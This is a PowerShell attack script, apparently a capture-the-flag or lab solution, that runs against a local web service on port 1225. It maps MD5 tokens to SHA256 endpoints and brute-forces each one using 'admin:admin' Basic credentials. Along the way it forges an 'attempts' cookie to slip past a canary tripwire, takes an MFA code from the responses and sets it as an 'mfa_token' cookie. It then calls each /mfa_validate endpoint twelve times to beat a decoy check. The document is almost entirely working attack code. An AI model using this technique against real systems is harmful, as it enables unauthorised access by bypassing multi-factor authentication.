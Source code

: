 ```
$unredacted_endpoints = @();
foreach($line in gc output.txt) {
  $md5 = ($line | Select-String -Pattern '([0-9a-fA-F]{32})').Matches.Value;
  if ($md5 -ne $null)
  {
    $sha256 = (unredact $md5).Hash;
    $unredacted_endpoints += @{md5=$md5;sha256=$sha256};
  }
}

# The meat of the burger
Function brute {
  param($params)

  $md5 = $params[0]
  $sha256 = $params[1]

  $session = [Microsoft.PowerShell.Commands.WebRequestSession]::new()
  $cookie = [System.Net.Cookie]::new('token',$md5);
  $session.Cookies.Add('http://127.0.0.1/',$cookie);

  # trigger Canary TRIPWIRE
  $cookie = [System.Net.Cookie]::new('attempts','c25ha2VvaWw');
  $session.Cookies.Add('http://127.0.0.1/',$cookie);
  $ProgressPreference = 'SilentlyContinue';
  $response = try {(Invoke-WebRequest -WebSession $session "http://127.0.0.1:1225/tokens/$sha256" -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))}).Content} catch {}
  echo $response

  # save mfa_code
  $mfa_code = ($response | Select-String -Pattern '([0-9.]{16,})').Matches.Value;
  Write-Host "mfa_code: $mfa_code"

  # restore shared_cookie
  $cookie = [System.Net.Cookie]::new('attempts','c25ha2VvaWwK01');
  $session.Cookies.Add('http://127.0.0.1/',$cookie);

  # add valid mfa_token cookie with value mfa_code
  $cookie = [System.Net.Cookie]::new('mfa_token',$mfa_code);
  $session.Cookies.Add('http://127.0.0.1/',$cookie);

  # defeat fakeout protocol by connecting 12 times to each /mfa_validate endpoint
  for ($i=0; $i -lt 12; $i++) {
    $ProgressPreference = 'SilentlyContinue';
    $response = try {Invoke-WebRequest -WebSession $session "http://127.0.0.1:1225/mfa_validate/$sha256" -Headers @{ Authorization = "Basic "+ [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))};} catch {}
    Write-Host "/mfa_validate: $response"
  }
}

# bruteforce every endpoint
$unredacted_endpoints | %{ brute @($_.md5,$_.sha256) }
```
